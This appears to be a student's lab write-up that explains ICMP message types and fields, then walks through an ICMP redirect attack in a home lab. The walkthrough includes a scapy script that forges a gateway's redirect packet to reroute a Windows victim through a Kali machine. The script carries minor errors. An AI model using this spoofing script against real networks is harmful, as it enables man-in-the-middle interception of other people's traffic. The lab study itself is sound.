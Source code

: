 # ICMP

ICMP is a layer 3 protocol that is responsible for notifying machine on the network about problems with the IP protocol, as well and managing it.

First, ICMP stands for `Internet Control Message Protocol`. The way it operates is simple, whenever there is an incident with the IP protocol, a message is sent to notify the sending computer of it. An ICMP packet is built very dynamically, there are 3 main fields in it and the rest are dependant.

## Types

Each ICMP message has a code that defines what the meaning of the message is. Here's a list:

| Type | Message                 |
| ---: | :---------------------- |
|    0 | Echo Reply              |
|    3 | Destination Unreachable |
|    4 | Source Quench           |
|    5 | Redirect                |
|    8 | Echo                    |
|   11 | Time Exceeded           |
|   12 | Parameter Problem       |
|   13 | Timestamp               |
|   14 | Timestamp Reply         |
|   15 | Information Request     |
|   16 | Information Reply       |

There were more messages added later on but we will not elaborate on them in this summary.

The most used ICMP messages are the `Echo & Echo Reply` message and the `Destination Unreachable` message.

> #### `Echo & Echo Reply`
>
> The Echo message is an "alive-check", when an echo message gets sent to a machine it will send back an echo reply message. It is a way to know if there is connectivity to a machine. That is what the ping program does.  
>
> Note: If a machine doesn't reply to an echo it does not neccesarily mean that there is no connectivity, it might be a firewall issue.

> #### `Destination Unreachable`
>
> A destination unreachable message is sent when the target machine of a packet above layer 3 is well... unreachable, this message will be sent by a router.

And a bonus message.

> #### `Redirect`
>
> A Redirect message is sent when a router (Likely the LAN's default gateway) routes a packet through another router on the same LAN as the sender machine, in that case it would be better off to send the packet straight to that other router and save a hop. So, the router will send a redirect message to the sender machine and alter their routing table so that next time they will send it to the other ruter immediately.

## Codes

Codes are just like types, but for types. Each message type has different codes that are used to define even more what is the problem. Like, message type `Redirect` has 4 codes (0, 1, 2, 3) that tell it to redirect for a whole network (0), a specific host(1), a specific service from a network (2) or a specific service from a host (3). 

`Destination Unreachable` also has codes (0, 1, 2, 3, 4, 5) for if a net (0), host (1), protocol (2) or a port (3) are unreachable, fragmentation mishap (4) or a routing failure (5).

If a type has no codes then that field will just be 0.

## The rest of the fields

The rest of the field take up the rest of the packet's buffer. The buffer is 64 bits long, 8 for Type, 8 for Code and 16 for checksum leave 32 bits for the other fields which are defualtly reserved. That is because the developers of the protocol thought that someday more types will added so dynamics are required.

The reserved 32 bit buffer is allocated according the type and code, if `Redirect` is sent then the 32 bits will be used to save the IP address of the preffered gateway. If `Destination Unreachable` is sent, the 32 bits are left empty since they have no use.

# ICMP Redirection Attack

An ICMP redirection attack takes advantage of the ICMP redirect message, and an attacker tries to place himself as a gateway for a victim machine on the local network. It is very simple. Here is the network layout:

![Network map, Kali IP change to .4 instead of .5](/Pictures/Network_Map.png)

The Attacker is the Kali machine (192.168.100.5), My victim is the 'Win10 - 01' machine (192.168.100.1) and the machine I am going to gateway to is the DC (192.168.50.1). Now, let's craft ourself a redirect packet.

*click click*... *keyboard noises*... *Head slaminh against desk*... *more keyboard noises*...

Anddddd there we go!

```
# ICMP Redirect Attack.py
# 05.02.2023
# By Timon

# Imports
from scapy.all import *

# Constants
VICTIM_IP   = "192.168.100.1"
REAL_GW     = "192.168.100.254"
ATTACKER_GW = "192.168.100.4"
TARGET_NET  = "192.168.50.1"
ICMP_TYPE   = 5
ICMP_CODE   = 1

def main():
    malicious_icmp = IP(\
                        src=REAL_GW,\       # I pose as the default gateway of the LAN.
                        dst=VICTIM_IP)/\    # Send it to the victim.
                     ICMP(\
                        type=ICMP_TYPE,\    # Enter type and code.
                        code=ICMP_CODE\
                        gw=ATTACKER_GW)/\   # GW tells victim what gw to route to instead.
                     IP(\
                        src=VICTIM_IP,\     # ICMP require the header of the IP pacet it is
                        dst=TARGET_NET)     # related to. Here we forge an IP header.
    
    send(malicious_icmp)                    # Send the packet on the wire!

if (__name__ == "__main__"):
    main()
```
A python script using scapy, creates a redirect icmp packet and sends it.

At first it did not work, and I didn't know why. The script was perfect and the victim machine recieved the packet, so it was very fraustrating ;-; . But then I found the problem!

Exhibit 1 madafaka, this bitch!

![Default rule for ICMPv4 traffic](/Pictures/Old_Firewall_Rule.PNG)

On windows, allegedly ICMP redirection is turned on by default. But on the firewall the ICMPv4 rule does not allow ICMP redirection pacets to pass through! Only ICMP echo.

So I made my own rule:

![New rule :)](/Pictures/New_Firewall_Rule.PNG)

And allowed all ICMP traffic in! Like a good cybersecurity personel. Finally my victim was exposed to ICMP redirection attacks! I ran `tracert 192.158.50.1` on the victim machine and while it was running, I ran the script as well. And *voilà*! It worked!

![tracert](/Pictures/ICMP_Redirected_Tracert.PNG)

Here you can see a picture of the packet that were sent by the tracert.

![A packet sent to the default gateway](/Pictures/ICMP_Layer_2_Original.PNG)

Notice the MAC address, this one belongs to the default gateway (192.168.100.254).

![A packet sent to meeeee](/Pictures/ICMP_Layer_2_Changed.PNG)

The MAC address here belongs to the kali machine.